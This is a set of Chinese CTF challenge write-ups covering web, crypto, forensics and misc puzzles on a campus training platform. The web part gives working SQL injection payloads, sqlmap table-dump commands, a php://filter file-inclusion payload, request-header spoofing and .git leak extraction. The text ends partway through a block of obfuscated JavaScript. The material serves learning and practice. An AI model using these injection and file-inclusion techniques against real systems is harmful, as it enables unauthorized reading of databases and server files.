# Web-Writeup

## Web签到题0.1

1. 打开网页，首先查看源码没有发现可疑信息。

2. 右键网页打开检查（F12），在Network里查看网页的Response Headers即可找到flag。

    


## 简单 SQL 注入漏洞 1.0

1. 题目告诉是SQL注入漏洞。寻找注入点，先猜测id=1，猜测正确

2. ```sql
   # 爆破表名
   id=1 and 1=2 union select group_concat(table_name) from information_schema.tables where table_schema=database()
   ```

   

3. ```sql
   id=1 and 1=2 union select flag from tb_flag_134adfadsfalk
   ```

   

## 简单 SQL 注入漏洞 2.0

1. http://legacy.ctf.cuc.edu.cn/sqli_2.php?id=1%20and%201=2无返回，擦测字符型漏洞

2. 使用sqlmap工具进行注入

   ```shell
   # 爆此数据库名字
   python sqlmap.py -u http://legacy.ctf.cuc.edu.cn/sqli_2.php?id=1 --current-db
   # 爆表名
   python sqlmap.py -u http://legacy.ctf.cuc.edu.cn/sqli_2.php?id=1 --dump -C "table_name" -T "tables" -D "information_schema"
   # 爆列名
   python sqlmap.py -u http://legacy.ctf.cuc.edu.cn/sqli_2.php?id=1 --columns -T "tb_flag_234jilkjlojljop" -D "sqli_2"
   # 爆flag
   python sqlmap.py -u http://legacy.ctf.cuc.edu.cn/sqli_2.php?id=1 --dump -C "flag" -T "tb_flag_234jilkjlojljop" -D "sqli_2"
   ```

   

## PHP Type Judging

1. 打开网页，（F12）检查，找到了一个可疑的tips，因为含有”=“号，考虑base64解码

    

2. 解码得到`show_me_the_flag.php`，并在原网页目录下将`show_me_the_flag.php`文件名粘贴到网址末尾，找到该文件。根据源码和**php的弱比较**得到应输入变量`num=0.3a`即可得到flag。

   

参考文档

* [CTFWeb-PHP弱比较与反序列化利用姿势](https://blog.csdn.net/weixin_39190897/article/details/116310233)

## Web签到题1.0

1. 打开网页，提示只有Android666版本才能得到flag。于是考虑伪造User-Agent以获得权限。

2. 右键并打开检查（F12），进入`Network settings`选项里修改User-Agent：取消`Use browser default`并在Custom里选择任意Android客户端，并修改版本为666

   * 若自动获取到的UA修改版本号后仍不成功，可自行搜索一个Andriod的UA填入并更改版本为666，记得也要改Platform里的版本。

   

## Web签到题2.0

1. 点击网页，有一个输入框，直接点提交会出现提示。是提示我们修改http请求头的意思

   

2. 打开Burp Suite，设置好chrome浏览器代理后，利用Proxy抓包，并将HTTP POST传到Repeater。

   

3. 将req-hdr添加到Request Headers。修改完后发送请求。

   

4. 从上图右下角提示我们下一步应该伪造request来源，即在Request Headers添加并设置`X-Forwarded-For`字段为`localhost`，再次发送请求即可。

   


## Evil Git

* .git文件导致的源码泄露
  .git文件是开发人员在开发过程中使用 Git(分布式版本控制系统)做开发时产生的隐藏目录，该文件包含一些版本信息和网站源码，数据库信息等敏感信息。


  原理：

  * 通常开发人员在开发时，通常将源码提交到远程的托管网站（如Github）方便管理与交互，等到开发最后阶段，再将源码从远程服务器上下载到 web 目录下， 如果开发人员忘记将其中的 .git文件删除，则可以通过 .git文件恢复网站源码，来获取一些敏感信息；
  * 开发人员对站点使用 Git 对版本进行控制，实现自动部署，如果配置不当，直接将 .git文件加载到线上环境，这样便引起了.git文件泄露。

1. 根据题目猜测是.git文件泄露题。准备好相关环境。

   环境：

   * Linux kali
   * python2
   * [Git_Extract: 提取远程 git 泄露或本地 git 的工具](https://github.com/gakki429/Git_Extract)

2. 使用工具对目标网址的泄露文件进行提取，得到`flag.txt`

   ```python
   python git_extract.py http://legacy.ctf.cuc.edu.cn/evil-git/.git/
   ```

   

**对于校园平台网址无法访问的情况**

* 进行dns配置

  ```shell
  vim /etc/resovl.conf
  
  #更改为
  nameserver  202.205.24.196
  ```

  参考[本学期课程考核规则 ](https://c4pr1c3.gitee.io/cuc-wiki/ns/2021/homework.html)中对于`校内 CTF 平台`的访问配置

## LFL-1

1. 题目名称 LFL ：Local File Inclusion
2. 注意到url里有`？file=flag.php`，地址后的参数直接使用的文件包含。猜测flag就在falg.php中
3. `http://0a54b924-786a-4d4c-84e1-1cbb4048d262.ctf.cuc.edu.cn/?file=php://filter/read=convert.base64-encode/resource=flag.php`
   * php://fliter是php里独有的一个协议，可以作为中间流来处理其他流，可以进行任意文件的读取
   * resource==<要过滤的数据流>制定了要筛选过滤的数据流flag.php
   * 通过指定末尾的文件，可以读取base64加密之后的文件源码，之后再base64解码以下就行
4. 根据提示构造/?file=/flag.txt即可

**refer**

https://0xor-writeup.readthedocs.io/zh/latest/wargame/web/[ctf.nuptzj.cn]_php_LFI/

## 入门级爬虫

```python
import requests
import base64
import re

r = requests.session()
url = "http://legacy.ctf.cuc.edu.cn/hurryUp.php?Flag=helloworld"
req = r.get(url=url)
key = req.headers['Flag'] #获取响应头中的‘flag字段’
key = base64.b64decode(key).decode() #将key进行base64解码，并将bytes编码->unicode编码
new_url = "http://legacy.ctf.cuc.edu.cn/hurryUp.php"+"?flag="+key
payload = {"Flag":key} #将b64解码后的flag传参到网页
flag = r.get(url=new_url,params=payload)
print(flag.text)
```


## JS爬虫1.0

1. 点开网页发现需要在50s内多次填写，最终到达规定次数就能拿到flag

2. ```python
   import requests
   from bs4 import BeautifulSoup
   import re
   pattern = r"tCTF"
   r = requests.Session()
   get_url = 'http://legacy.ctf.cuc.edu.cn/spider_basics_100.php'
   get_token = r.get(get_url)
   soup = BeautifulSoup(get_token.text,'html.parser')
   token = soup.label.get_text()
   while True:
       post_url = 'http://legacy.ctf.cuc.edu.cn/spider_basics_100.php'
       #print(token)
       params = {'token':token.strip(' ')}
       #print(params)
       post_token = r.get(url=post_url,params=params)
       if re.search(pattern,post_token.text):
           print(post_token.text)
           break
       if re.search(r"timeout",post_token.text):
           print(post_token.text)
           break
       soup = BeautifulSoup(post_token.text,'html.parser')
       token = soup.label.get_text()
   ```

   

## JS爬虫2.0

1. 点开网页，看见一个每次刷新都会更新的js返回的邮箱。而提交网页正好要输入邮箱email参数，考虑是利用爬虫将email参数获取并填入新的网址。

   * 
   * 手动填入email会出现“被耍了”的的字样

2. 利用request解析网页，发现提示`get original href with js-generated email as querystring`：获取原始href与js生成的电子邮件作为查询的字符串

   * 动态生成email

     

3. 代码没解出来，发现只要手动快速填入email就可以出现对应flag…😅


# Crypto-Writeup

## 被困在栅栏里的凯撒

1. 凯撒加密和栅栏加密，由于这两种算法都是可逆的，所以不存在先后顺序问题

   ```
   Z0d7N3JzN3VTUFNnWnZqZDl9
   ```

2. 先用b64解密

   ```
   gG{7rs7uSPSgZvjd9}
   ```

3. 再用凯撒密码枚举解密

   ```
   tT{7ef7hFCFtMiwq9}
   ```

4. 最后栅栏密码

   ```
   tCTF{t7Meifw7qh9F}
   ```

## 懒得起名

1. 考虑单表代换密码

2. 在单表替换加密中，所有的加密方式几乎都有一个共性，那就是明密文一一对应。所以说，一般有以下两种方式来进行破解，由于密文长度足够长，考虑词频分析

   [quipqiup - cryptoquip and cryptogram solver](http://quipqiup.com/)

# Programming-Writeup

* 通过计算和观察发现变换字符串长度-1次会变回原本的字符串，那么说明所有的变换字符串都会在变换次数为0~len-1之中，使用正则匹配找到字符串中含有tCTF字样的字符串并打印即可

```python
import re
f = open("./ciphertext.txt")
cipher = "TmlPfiskpsaobmaqeywvlyhcngptqeblPxaelexbxrjpruhwviiylqrnhtlixOinwngofoixcSknkeswxkyulgegynIligynrbjqtjNmbgakflkmpfnpsenJcqjJxphksrxNbuflrkvnpkocwngmWnmjEuvbepixEvlucgkxovuiqjhyvJofrWrpjmlsbelgsryqxvoohtcFyygjgpGsapwmufvakpmmfdvyyuwhlverbkdIcrmpdqaygwqjixbudaqsloqdfwkxJrmlexsjpeqdtkgmansklwiopvyk}IgyahpqfajsojlxavxbdevgxubckGWsrvwvhvtjfrwfwaxrrqywefiiJafVcpalumggolkdriepkveeitkykEtrWkbrohyfuwsyyEdrbcxlkuirhdOpqVttlcnuoxhspxEdiusbyuxtwrvOqwBimeqnwevrkvmVrwsdavojuiatJvfIjcphopppskdnEldpqpoynuwywWllBnmhrukhjygpnGrsiqnnhtdvnmVlvBcfsvahxmkimiItkykgjjiwtcyJngIrodxfmuxgxluWtqcchvmtiodmWjeOcjypspylxfmpFbdadibrtkwnbEkwOrwsifcytvuutkchnfgogwlhoJGifJFsdeokyojspoldrjijxpkpyxOWkFxOebhhyjbtkdrwgfJpqfpyudoPJcCeVypaejtyamohwqcInyhvmwjoJdy:fElehgwyxpxdqyatWfrceupoeOrxaaVxnmvjexugeolruGmjyuefaiIliFtEkoalaylsadfhrwIvfvqhceiJrgveWpfimmidmmoptdeOeswicsweImhbyvqjeltncnuwcaxkJlbewydrtEydouiakdiscejynfahyOqylonsocGoapqoyfgeanksuknhrlEgptytlanvxgckgudxrmqtumkcnhwJipgoseinubxvrqyqlrvmstaolskbWwjpbuosvvpfaufrpepyonhxfselcEdexkcxkibdjedwvajlboouvthfkjObukpjltvlihbkecemnydtelwfpsqEyvervtgomyvueadugsrskuujrcfvIdjdrtbaoceliehuheyctuhsrlebevpwjwnhfsypyhkojgGqmgdwerxngsuuufahtetqqkvvudiWugxiyjxxpqgtcbvktyyowfwqnbwyIikqgnydnhesitpgsnvrtxqdccnavJkodkikpcqphkwahcanmthnqnykwxOtvsdgpyiujlaqlajnusljnnbkawhGacwselxwsjpgrfswbkmbqbblxvcoWcmmobtqmrqgldfrfftvJgxmcxgxwIepbqxfnbwophtjbddbrWvbkdbmgbGmhuecsgxeghlrnSjrrsOsknntppyWktwuokefmwcpjqVaoaaGtlbtsyuwJjpknylnquufjddWflluWpyokidunOxxrrknatbxphqaVaggyIhcdxoelfGhhelrpliscmgvtWetjGGeuhxovolEjyobcjedcawgmmIcTxEEgoieuivhWhfdirdxvepwuxyJr{qOWeepvrfctxeebhefklajvwvboIjiJmdhudgmixukrbwcarkuvlfjmuJopOnhbhfrsddvetJtitpixqpptvnRivIetigmntodccxEnbkuysouxqesJjqWrvjyrhmqpfjpOrxouqtewlvrbNllJeifdfmrxtrxfJketnjvrpnymuRjuGkpxxqdadhxlwJwuduvocpbopvJmmEktofiytqntrjWyaksuvrfcamvWocJhpanlufekvvaWhavyybckhpafMuaIqqtphusvfuglycvbldmfadqkmOLxWcdwxwqofgewyslmhpgxtcyjjpMecoigmTectfhmhowboschiulwnerOJyixfvntcflretmynswwtwjcbaxwGmjxwwhwgrnagnsdkycwlymjvtpaqOtpantslbdplundnwiubmqhevfndxWiwpikrofpqmitqnlrkncoehggrgmJyuoVtdepuifcldohwqvkJywnjlbcOmswElvThowyycmcwaiyiNgioikfxIfqoPsnIcqdcjcwwqaijjVapgdhwdisaaPgdIbnasqomalvwqjVbsddaqjnddvWbcaddqdhjguoqnxkVskhrlwfxwvfPpxFfemmbvfahlkjryrnoivnnxxlkIkqhxjitqtdylfyqdd"
flag="tCTF"
print(len(cipher))
for k in range(len(cipher)-1):
    move = ""
    result = ""
    for i in range(len(cipher)):
        if i%2!=0:
            move = move+cipher[i]
        else:
            result = result+cipher[i]
    
    result = result + move[::-1]
    cipher = result
    if re.search(flag,cipher):
        print(result)
```


# Forensics-Writeup

## 签到题目 0.1

查看文件内核，发现该jpg文件在文件尾‘FF D9’之后仍有信息，这十分可疑，将该信息进行base64解码后得到flag





## pcap分析基础

1. 利用wireshark分析pcap文件，由于要查找流量包中所有请求过的域名，于是需要查找所有的http协议的包，并且包含host字段。在Filter一栏中输入`http.host`过滤出含有host字段的http协议包。

2. 把每个包的HTTP Header中的host复制出来并去重，输入到网站中即可得到的flag。

   

## Forensics 签到题1.0

1. 尝试利用hex查看文件头，发现确实是jpg文件没错，而且还是以FF D9结尾，没有冗余信息。

2. 尝试利用stegsolve，没发现隐藏有flag。扔到linux下用foremost一跑，分离出两张图片和一个zip文件夹。

3. 尝试解压文件。可以看到有flag.txt这个文件，但是zip文件损坏无法解压。继续利用winHex查看文件头，对照zip文件格式发现**压缩源文件目录区的**目录中文件文件头标记（`50 4B 01 02`）缺失。**压缩源文件数据区**和**压缩源文件目录区**的全局方式位标记为伪加密（`00 09`）.于是同时修改:`00 09→00 00和00 00→01 02`之后即可解压。

   


**Reference**:zip文件格式的详解[zip伪加密](https://blog.csdn.net/ETF6996/article/details/51946250)

## Forensics 签到题 2.0

题目提示用专业工具对比两种图片的差异，于是考虑将两张图片扔到stegsolve里sub一下，求两张图的差异部分，即图像差分。



## 又是一封表白信？

```
SlJYWEVaTE5FQlVYQTQzVk5VUUdJMzNNTjVaQ0E0M0pPUVFISVlMTk1WMkNZSURETjVYSEdaTERPUlNYSTVMU0VCQldDWkRKT0JVWEdZM0pOWlRTQVZERk5SVVhJTEJBT05TV0lJREVONFFFTVpMSk9WWlcyMzNFRUIyR0szTFFONVpDQTJMT01OVVdJMkxFT1ZYSElJRFZPUVFHWVlMQ041WkdLSURGT1FRR0kzM01ONVpHS0lETk1GVFc0WUpBTUZXR1M0TFZNRVhDQVZMRE9RUUdLM1RKTlVRR0NaQkFNRldXUzNUSk5VUUhNWkxPTkZRVzJMQkFPRjJXUzRaQU5aWFhHNURTT1ZTQ0FaTFlNVlpHRzJMVU1GMkdTMzNPRUIyV1kzREJOVlJXNjNSQU5SUVdFMzNTTkZaU0E2TE9ORlpXU0lEUE9WMkNBWUxNTkZZWEsyTFFFQlNYUUlERk1GMlNBWTNQTlZXVzZaRFBFQlpXRzMzT09OU1hDNUxCT1FYQ0FSRFZORlpTQVlMVk9SU1NBMkxTT1ZaR0tJREVONVdHNjRSQU5GWENBNFRGT0JaR0syREZOWlNHSzRUSk9RUUdTM1JBT1pYV1k1TFFPUlFYSVpKQU9aU1dZMkxVRUJTWEc0M0ZFQlJXUzNETU9WV1dLSURFTjVXRzY0VEZFQlNYS0lER09WVFdTWUxVTVVRRzQ1TE1OUlFTQTREQk9KVVdDNURWT0lYQ0FSTFlNTlNYQTVERk9WWkNBNDNKTloyQ0EzM0RNTlFXS1kzQk9SV1NBWTNWT0JVV0lZTFVNRjJDQTNUUE5aU1NBNERTTjVVV0laTE9PUVdDQTQzVk5aMkNBMkxPRUJSWEszRFFNRVFIQzVMSkVCWFdNWlRKTU5VV0NJREVNVlpXSzRUVk5aMkNBM0xQTlJXR1M1QkFNRlhHUzNKQU5GU0NBWkxUT1FRR1lZTENONVpISzNKTw

```

1. 得到一串字符串，根据base家族特点，考虑是base64，解码得到

   ```
   JRXXEZLNEBUXA43VNUQGI33MN5ZCA43JOQQHIYLNMV2CYIDDN5XHGZLDORSXI5LSEBBWCZDJOBUXGY3JNZTSAVDFNRUXILBAONSWIIDEN4QEMZLJOVZW233EEB2GK3LQN5ZCA2LOMNUWI2LEOVXHIIDVOQQGYYLCN5ZGKIDFOQQGI33MN5ZGKIDNMFTW4YJAMFWGS4LVMEXCAVLDOQQGK3TJNUQGCZBAMFWWS3TJNUQHMZLONFQW2LBAOF2WS4ZANZXXG5DSOVSCAZLYMVZGG2LUMF2GS33OEB2WY3DBNVRW63RANRQWE33SNFZSA6LONFZWSIDPOV2CAYLMNFYXK2LQEBSXQIDFMF2SAY3PNVWW6ZDPEBZWG33OONSXC5LBOQXCARDVNFZSAYLVORSSA2LSOVZGKIDEN5WG64RANFXCA4TFOBZGK2DFNZSGK4TJOQQGS3RAOZXWY5LQORQXIZJAOZSWY2LUEBSXG43FEBRWS3DMOVWWKIDEN5WG64TFEBSXKIDGOVTWSYLUMUQG45LMNRQSA4DBOJUWC5DVOIXCARLYMNSXA5DFOVZCA43JNZ2CA33DMNQWKY3BORWSAY3VOBUWIYLUMF2CA3TPNZSSA4DSN5UWIZLOOQWCA43VNZ2CA2LOEBRXK3DQMEQHC5LJEBXWMZTJMNUWCIDEMVZWK4TVNZ2CA3LPNRWGS5BAMFXGS3JANFSCAZLTOQQGYYLCN5ZHK3JO
   ```

2. 根据base家族特征，考虑为base32编码，解码得到

   ```
   Lorem ipsum dolor sit tamet, consectetur Cadipiscing Telit, sed do Feiusmod tempor incididunt ut labore et dolore magna aliqua. Uct enim ad aminim veniam, quis nostrud exercitation ullamcon laboris ynisi out aliquip ex eau commodo sconsequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillume dolore eu fugiate nulla pariatur. Excepteur sint occaecatm cupidatat none proident, sunt in culpa qui officia deserunt mollit anim id est laborum.
   ```

3. 得到一串乱数假文，搜索得到原文，并在线进行文本比对即可找到flag。

* base家族
  * base16用于编码的字符只有：1-9，A-F ,只有简单的15个字符。
  * base32：由base16的类型转变为了A-Z,2-7
  * base64编码：是在base32的基础上，增加了"a-z,0,1,8,9,+,/"，以及特殊填充字符"="

## 火眼金睛

1. 在HxD里打开jpg文件，搜索‘FF D9’，发现之后有可疑信息。提取可疑信息并放到新的文件中。

2. 可疑信息比较大，考虑是一个文件，发现‘1F 8B 08 00’是gz文件的文件头。于是更改文件后缀为gz，解压两次之后得到一个`flag.docx`文件。

3. 首先考虑word的隐藏文字功能，但没有新的发现。由于docx本身可以压缩包形式打开，于是更改`flag.docx`后缀为zip，解压并在`flag\word\media`目录下找到隐藏图片`image2.png`，找到flag。

   

## 我很欣赏你

1. 打开压缩包看到一个PNG文件，搜索文件尾`AE 42 60 82`找到末尾的可疑信息。

2. 看起来像base64编码，由于过长，考虑base64转图片，（记得将编码头部位置的\r\n(Enter)删除掉再解码）。得到GIF，由于gif跳转太快，利用stegslove定格一帧分析得到flag。

   

## 入侵取旗

```python
import re
import binascii

f = open('./access.log')
pattern = r"2790"
flag=''
for i in range(78189):
    log = f.readline()
    if re.search(pattern,log):
        ind = log.index('0x')
        flag += log[ind+2:ind+4]
#print(flag)
flag = binascii.unhexlify(flag)
print(flag.decode('utf-8'))
```

## 找到女神就归你

1. 得到一张gif图片，用StegSolve里Frame Browser选项一帧一帧查看，没有发现。

2. 用HxD打开看到可疑信息，考虑是有隐藏文件。

   

3. 扔到linux里用`foremost -t nvshen.gif`，发现确实有多余的文件信息，但是分解不出新的文件。

   

4. 把剔除多余信息的gif文件与之前题目的gif对比，得到多余信息。尝试更改后缀为zip，打开可以看到该zip文件里有`giegie.jpeg`，但是提示压缩文件已损坏。于是到Hex里检查zip文件格式。

   

5. 在搜索‘0x03 04’的时候发现，在第一个搜索到的‘0x03 04’前面有可疑的文本‘password’，将其后面字符串进行base64解密，得到压缩包密码`ILoveYou`

   

6. 猜测第一个第一个搜索到的‘0x03 04’就是zip文件缺失文件头的位置，于是删除‘0x03 04’前所有16进制字符串，并添加‘0x50 4B’，保存为新的zip文件。打开并输入密码得到`giegie.jpeg`

7. windows系统下通过命令行查看文件的MD5值得到flag。

   ```python
   certutil -hashfile 文件绝对路径 MD5
   ```

   

   # 参考资料

   * [https://byart.cc/136](https://byart.cc/136)

   * [https://blog.csdn.net/Amherstieae/article/details/107512398](https://blog.csdn.net/Amherstieae/article/details/107512398)

   * https://www.cnblogs.com/lwy-kitty/p/3928317.html

# MISC-Writeup

## JS代码也可以萌萌哒

```markdown
--我是代码分割线----- 776fz4nvvp/vvok9IC/vvYDvvY3CtO+8ie++iSB+4pS74pSB4pS7ICAgLy8qwrTiiIfvvYAqLyBbJ18nXTsgbz0o776f772w776fKSAgPV89MzsgYz0o776fzpjvvp8pID0o776f772w776fKS0o776f772w776fKTsgKO++n9CU776fKSA9KO++n86Y776fKT0gKG9eX15vKS8gKG9eX15vKTso776f0JTvvp8pPXvvvp/OmO++nzogJ18nICzvvp/Pie++n+++iSA6ICgo776fz4nvvp/vvok9PTMpICsnXycpIFvvvp/OmO++n10gLO++n++9sO++n+++iSA6KO++n8+J776f776JKyAnXycpW29eX15vIC0o776fzpjvvp8pXSAs776f0JTvvp/vvok6KCjvvp/vvbDvvp89PTMpICsnXycpW+++n++9sO++n10gfTsgKO++n9CU776fKSBb776fzpjvvp9dID0oKO++n8+J776f776JPT0zKSArJ18nKSBbY15fXm9dOyjvvp/QlO++nykgWydjJ10gPSAoKO++n9CU776fKSsnXycpIFsgKO++n++9sO++nykrKO++n++9sO++nyktKO++n86Y776fKSBdOyjvvp/QlO++nykgWydvJ10gPSAoKO++n9CU776fKSsnXycpIFvvvp/OmO++n107KO++n2/vvp8pPSjvvp/QlO++nykgWydjJ10rKO++n9CU776fKSBbJ28nXSso776fz4nvvp/vvokgKydfJylb776fzpjvvp9dKyAoKO++n8+J776f776JPT0zKSArJ18nKSBb776f772w776fXSArICgo776f0JTvvp8pICsnXycpIFso776f772w776fKSso776f772w776fKV0rICgo776f772w776fPT0zKSArJ18nKSBb776fzpjvvp9dKygo776f772w776fPT0zKSArJ18nKSBbKO++n++9sO++nykgLSAo776fzpjvvp8pXSso776f0JTvvp8pIFsnYyddKygo776f0JTvvp8pKydfJykgWyjvvp/vvbDvvp8pKyjvvp/vvbDvvp8pXSsgKO++n9CU776fKSBbJ28nXSsoKO++n++9sO++nz09MykgKydfJykgW+++n86Y776fXTso776f0JTvvp8pIFsnXyddID0ob15fXm8pIFvvvp9v776fXSBb776fb+++n107KO++n861776fKT0oKO++n++9sO++nz09MykgKydfJykgW+++n86Y776fXSsgKO++n9CU776fKSAu776f0JTvvp/vvokrKCjvvp/QlO++nykrJ18nKSBbKO++n++9sO++nykgKyAo776f772w776fKV0rKCjvvp/vvbDvvp89PTMpICsnXycpIFtvXl9ebyAt776fzpjvvp9dKygo776f772w776fPT0zKSArJ18nKSBb776fzpjvvp9dKyAo776fz4nvvp/vvokgKydfJykgW+++n86Y776fXTsgKO++n++9sO++nykrPSjvvp/OmO++nyk7ICjvvp/QlO++nylb776fzrXvvp9dPSdcXCc7ICjvvp/QlO++nyku776fzpjvvp/vvok9KO++n9CU776fKyDvvp/vvbDvvp8pW29eX15vIC0o776fzpjvvp8pXTsob+++n++9sO++n28pPSjvvp/Pie++n+++iSArJ18nKVtjXl9eb107KO++n9CU776fKSBb776fb+++n109J1wiJzso776f0JTvvp8pIFsnXyddICggKO++n9CU776fKSBbJ18nXSAo776fzrXvvp8rKO++n9CU776fKVvvvp9v776fXSsgKO++n9CU776fKVvvvp/Ote++n10rKO++n86Y776fKSsgKO++n++9sO++nykrICjvvp/OmO++nykrICjvvp/QlO++nylb776fzrXvvp9dKyjvvp/OmO++nykrICgo776f772w776fKSArICjvvp/OmO++nykpKyAo776f772w776fKSsgKO++n9CU776fKVvvvp/Ote++n10rKO++n86Y776fKSsgKO++n++9sO++nykrICgo776f772w776fKSArICjvvp/OmO++nykpKyAo776f0JTvvp8pW+++n861776fXSso776fzpjvvp8pKyAoKG9eX15vKSArKG9eX15vKSkrICgob15fXm8pIC0gKO++n86Y776fKSkrICjvvp/QlO++nylb776fzrXvvp9dKyjvvp/OmO++nykrICgob15fXm8pICsob15fXm8pKSsgKO++n++9sO++nykrICjvvp/QlO++nylb776fzrXvvp9dKygo776f772w776fKSArICjvvp/OmO++nykpKyAoY15fXm8pKyAo776f0JTvvp8pW+++n861776fXSso776f772w776fKSsgKChvXl9ebykgLSAo776fzpjvvp8pKSsgKO++n9CU776fKVvvvp/Ote++n10rKO++n86Y776fKSsgKChvXl9ebykgLSAo776fzpjvvp8pKSsgKCjvvp/vvbDvvp8pICsgKG9eX15vKSkrICjvvp/QlO++nylb776fzrXvvp9dKyjvvp/OmO++nykrICjvvp/vvbDvvp8pKyAoKO++n++9sO++nykgKyAo776fzpjvvp8pKSsgKO++n9CU776fKVvvvp/Ote++n10rKO++n86Y776fKSsgKCjvvp/vvbDvvp8pICsgKO++n86Y776fKSkrICjvvp/vvbDvvp8pKyAo776f0JTvvp8pW+++n861776fXSso776fzpjvvp8pKyAo776f772w776fKSsgKG9eX15vKSsgKO++n9CU776fKVvvvp/Ote++n10rKO++n86Y776fKSsgKCjvvp/vvbDvvp8pICsgKO++n86Y776fKSkrICgo776f772w776fKSArIChvXl9ebykpKyAo776f0JTvvp8pW+++n861776fXSso776fzpjvvp8pKyAoKO++n++9sO++nykgKyAo776fzpjvvp8pKSsgKCjvvp/vvbDvvp8pICsgKO++n86Y776fKSkrICjvvp/QlO++nylb776fzrXvvp9dKyjvvp/OmO++nykrICjvvp/vvbDvvp8pKyAoKO++n++9sO++nykgKyAo776fzpjvvp8pKSsgKO++n9CU776fKVvvvp/Ote++n10rKChvXl9ebykgKyhvXl9ebykpKyAoKG9eX15vKSAtICjvvp/OmO++nykpKyAo776f0JTvvp8pW+++n861776fXSso776fzpjvvp8pKyAoKG9eX15vKSAtICjvvp/OmO++nykpKyAo776f772w776fKSsgKO++n9CU776fKVvvvp/Ote++n10rKO++n86Y776fKSsgKO++n++9sO++nykrICjvvp/OmO++nykrICjvvp/QlO++nylb776fzrXvvp9dKyjvvp/OmO++nykrICgo776f772w776fKSArICjvvp/OmO++nykpKyAoKO++n++9sO++nykgKyAob15fXm8pKSsgKO++n9CU776fKVvvvp/Ote++n10rKO++n86Y776fKSsgKO++n86Y776fKSsgKGNeX15vKSsgKO++n9CU776fKVvvvp/Ote++n10rKO++n86Y776fKSsgKChvXl9ebykgKyhvXl9ebykpKyAoKO++n++9sO++nykgKyAo776fzpjvvp8pKSsgKO++n9CU776fKVvvvp/Ote++n10rKO++n86Y776fKSsgKO++n++9sO++nykrICjvvp/OmO++nykrICjvvp/QlO++nylb776fzrXvvp9dKyjvvp/OmO++nykrICjvvp/OmO++nykrICjvvp/OmO++nykrICjvvp/QlO++nylb776fzrXvvp9dKyjvvp/OmO++nykrICgob15fXm8pICsob15fXm8pKSsgKG9eX15vKSsgKO++n9CU776fKVvvvp/Ote++n10rKO++n86Y776fKSsgKCjvvp/vvbDvvp8pICsgKO++n86Y776fKSkrICjvvp/vvbDvvp8pKyAo776f0JTvvp8pW+++n861776fXSso776fzpjvvp8pKyAo776f772w776fKSsgKO++n86Y776fKSsgKO++n9CU776fKVvvvp/Ote++n10rKO++n86Y776fKSsgKCjvvp/vvbDvvp8pICsgKO++n86Y776fKSkrICgob15fXm8pICsob15fXm8pKSsgKO++n9CU776fKVvvvp/Ote++n10rKO++n86Y776fKSsgKO++n++9sO++nykrICjvvp/vvbDvvp8pKyAo776f0JTvvp8pW+++n861776fXSso776f772w776fKSsgKChvXl9ebykgLSAo776fzpjvvp8pKSsgKO++n9CU776fKVvvvp/Ote++n10rKCjvvp/vvbDvvp8pICsgKO++n86Y776fKSkrICjvvp/OmO++nykrICjvvp/QlO++nylb776fzrXvvp9dKygo776f772w776fKSArIChvXl9ebykpKyAob15fXm8pKyAo776f0JTvvp8pW+++n2/vvp9dKSAo776fzpjvvp8pKSAoJ18nKTsK ----我是代码分割线--—
```

Q:找到以下代码中隐藏的flag变量值后计算其md5值直接提交

1. base64解码后得到一串萌萌哒颜文字

   ```c
   ﾟωﾟﾉ= /｀ｍ´）ﾉ ~┻━┻   //*´∇｀*/ ['_']; o=(ﾟｰﾟ)  =_=3; c=(ﾟΘﾟ) =(ﾟｰﾟ)-(ﾟｰﾟ); (ﾟДﾟ) =(ﾟΘﾟ)= (o^_^o)/ (o^_^o);(ﾟДﾟ)={ﾟΘﾟ: '_' ,ﾟωﾟﾉ : ((ﾟωﾟﾉ==3) +'_') [ﾟΘﾟ] ,ﾟｰﾟﾉ :(ﾟωﾟﾉ+ '_')[o^_^o -(ﾟΘﾟ)] ,ﾟДﾟﾉ:((ﾟｰﾟ==3) +'_')[ﾟｰﾟ] }; (ﾟДﾟ) [ﾟΘﾟ] =((ﾟωﾟﾉ==3) +'_') [c^_^o];(ﾟДﾟ) ['c'] = ((ﾟДﾟ)+'_') [ (ﾟｰﾟ)+(ﾟｰﾟ)-(ﾟΘﾟ) ];(ﾟДﾟ) ['o'] = ((ﾟДﾟ)+'_') [ﾟΘﾟ];(ﾟoﾟ)=(ﾟДﾟ) ['c']+(ﾟДﾟ) ['o']+(ﾟωﾟﾉ +'_')[ﾟΘﾟ]+ ((ﾟωﾟﾉ==3) +'_') [ﾟｰﾟ] + ((ﾟДﾟ) +'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ ((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [(ﾟｰﾟ) - (ﾟΘﾟ)]+(ﾟДﾟ) ['c']+((ﾟДﾟ)+'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ (ﾟДﾟ) ['o']+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ];(ﾟДﾟ) ['_'] =(o^_^o) [ﾟoﾟ] [ﾟoﾟ];(ﾟεﾟ)=((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟДﾟ) .ﾟДﾟﾉ+((ﾟДﾟ)+'_') [(ﾟｰﾟ) + (ﾟｰﾟ)]+((ﾟｰﾟ==3) +'_') [o^_^o -ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟωﾟﾉ +'_') [ﾟΘﾟ]; (ﾟｰﾟ)+=(ﾟΘﾟ); (ﾟДﾟ)[ﾟεﾟ]='\\'; (ﾟДﾟ).ﾟΘﾟﾉ=(ﾟДﾟ+ ﾟｰﾟ)[o^_^o -(ﾟΘﾟ)];(oﾟｰﾟo)=(ﾟωﾟﾉ +'_')[c^_^o];(ﾟДﾟ) [ﾟoﾟ]='\"';(ﾟДﾟ) ['_'] ( (ﾟДﾟ) ['_'] (ﾟεﾟ+(ﾟДﾟ)[ﾟoﾟ]+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^_^o) +(o^_^o))+ ((o^_^o) - (ﾟΘﾟ))+ 